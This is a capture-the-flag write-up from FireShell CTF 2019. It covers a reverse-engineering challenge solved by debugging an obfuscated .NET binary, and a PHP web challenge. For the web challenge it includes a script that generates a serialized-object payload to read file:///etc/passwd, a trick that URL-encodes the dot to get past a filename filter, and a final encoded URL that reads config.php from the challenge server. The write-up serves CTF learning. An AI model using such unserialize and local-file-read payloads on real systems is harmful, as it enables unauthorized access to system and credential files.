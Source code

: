 # FireShell CTF 2019

## RE - BlackBox Cypher

Task :

![](.gitbook/assets/image%20%28144%29.png)

It's .Net file so we put it in dnspy

![](.gitbook/assets/image%20%28156%29.png)

Oops...obfuscated, try to clean it with de4dot

![](.gitbook/assets/image%20%28120%29.png)

Better, but still fucking so heavy. It's quite easy to know that the file work/obfuscated like this :

It created 100+ junk class, each have few function \(2-6 func\) and call to each other

Sounds pain in the ass, right?

Also, the challenge name is "Blackbox Cipher", so i assume that i dont even need to understand the algorithm behind it.

So i trying to run the binary, dump it and search for string in memory.

But where to stop to dump? Well, there is no other way around, you must debug the application to see where it generate the crypted flag.

![](.gitbook/assets/image%20%28181%29.png)

As you can see, after navigate through the code for a while, i realize the result is my encoded flag, where it's only assigned at

```text
result = Class9.smethod_1(null, type).vmethod_3(this.method_149()).vmethod_0();
```

Now i know that somehow it calculate encoded flag in those method, which mean it init flag somewhere in that too.

So there is 2 ways to solve this problem at this moment :

1. You keep debugging through these code and search through memory too.
2. You just now dump the memory, base64\("F\#{"\) and search in memory

Both work well,  i checked after ctf end, but when the ctf is running, i choose first one, because :

1. I dont know flag format since i havent read rules page...oops!
2. I am afraid that it will some where delete the flag out of memory before it return the encoded flag or maybe it can split flag into many method, and receive few bytes from each, null it after used immediately

After 15 minutes of pressing F11, i finally got

![](.gitbook/assets/image%20%28187%29.png)

Base64 decode it, we got flag

```text
F#{It's_all_about_memory_forensics}
```



## Web - Vice

Task :

```php
<?php
//require_once 'config.php';

class SHITS{
  private $url;
  private $method;
  private $addr;
  private $host;
  private $name;

  function __construct($method,$url){
    $this->method = $method;
    $this->url = $url;
  }

  function doit(){
    
    $this->host = @parse_url($this->url)['host'];
    $this->addr = @gethostbyname($this->host);
    $this->name = @gethostbyaddr($this->host);
    if($this->addr !== "127.0.0.1" || $this->name === false){
      $not = ['.txt','.php','.xml','.html','.','[',']'];
      foreach($not as $ext){
        $p = strpos($this->url,$ext);
        if($p){
          die(":)");
        }
      }
      $ch = curl_init();
      curl_setopt($ch,CURLOPT_URL,$this->url);
      curl_setopt($ch,CURLOPT_RETURNTRANSFER,true);

      $result = curl_exec($ch);
      echo $result;
    }else{
      die(":)");
    }
  }
  function __destruct(){
    if(in_array($this->method,array("doit"))){
 
      call_user_func_array(array($this,$this->method),array());
    }else{
      die(":)");
    }
  }
}
if(isset($_GET["gg"])) {
    @unserialize($_GET["gg"]);
} else {
    highlight_file(__FILE__);
}
```

I was trying to solve Boring Check, but then our team rank is down quickly to 3rd, and we must solve one more chall to keep our rank, compete with @bi0s for 3rd place. Time to call help from home.

![](.gitbook/assets/image%20%2842%29.png)

From @Thach works, we finally can craft the payload and read file base on php unserialize bug



```php
//Credit : Thach Nguyen Hoang
<?php
//require_once 'config.php';

class SHITS{
  private $url;
  private $method;
  private $addr;
  private $host;
  private $name;

  function __construct($method,$url){
    $this->method = $method;
    $this->url = $url;
  }

  function doit(){
    
    $this->host = @parse_url($this->url)['host'];
    echo $this->host;
    $this->addr = @gethostbyname($this->host);
    $this->name = @gethostbyaddr($this->host);
    if($this->addr !== "127.0.0.1" || $this->name === false){
      $not = ['.txt','.php','.xml','.html','.','[',']'];
      foreach($not as $ext){
        $p = strpos($this->url,$ext);
        if($p){
          echo $ext;
          die(":)");
        }
      }
      $ch = curl_init();
      curl_setopt($ch,CURLOPT_URL,$this->url);
      curl_setopt($ch,CURLOPT_RETURNTRANSFER,true);

      $result = curl_exec($ch);
      /* echo $result; */
    }else{
      die(":)");
    }
  }
  
  function __destruct(){
    if(in_array($this->method,array("doit"))){
 
      call_user_func_array(array($this,$this->method),array());
    }else{
      die(":)");
    }
  }
}


$o = new SHITS('doit', 'file:///etc/passwd');
echo urlencode(serialize($o));
```

What next? Where is flag?

```text
//require_once 'config.php';
```

There is commented line on challenge source. But it have '.' inside file name, which is filtered. So to bypass strpos\(\), we use urlencode, and guess the path to config.php, which is :

```text
/var/www/html/config%2ephp
```

Final payload

```text
view-source:http://68.183.31.62:991/?gg=O%3A5%3A%22SHITS%22%3A5%3A%7Bs%3A10%3A%22%00SHITS%00url%22%3Bs%3A33%3A%22file%3A%2F%2F%2Fvar%2Fwww%2Fhtml%2Fconfig%252ephp%22%3Bs%3A13%3A%22%00SHITS%00method%22%3Bs%3A4%3A%22doit%22%3Bs%3A11%3A%22%00SHITS%00addr%22%3BN%3Bs%3A11%3A%22%00SHITS%00host%22%3BN%3Bs%3A11%3A%22%00SHITS%00name%22%3BN%3B%7D
```

Flag

```text
F#{wtf_5trp0s_}
```



## Last words

We end up at 3rd place. Time to practice more...

![](.gitbook/assets/image%20%28149%29.png)

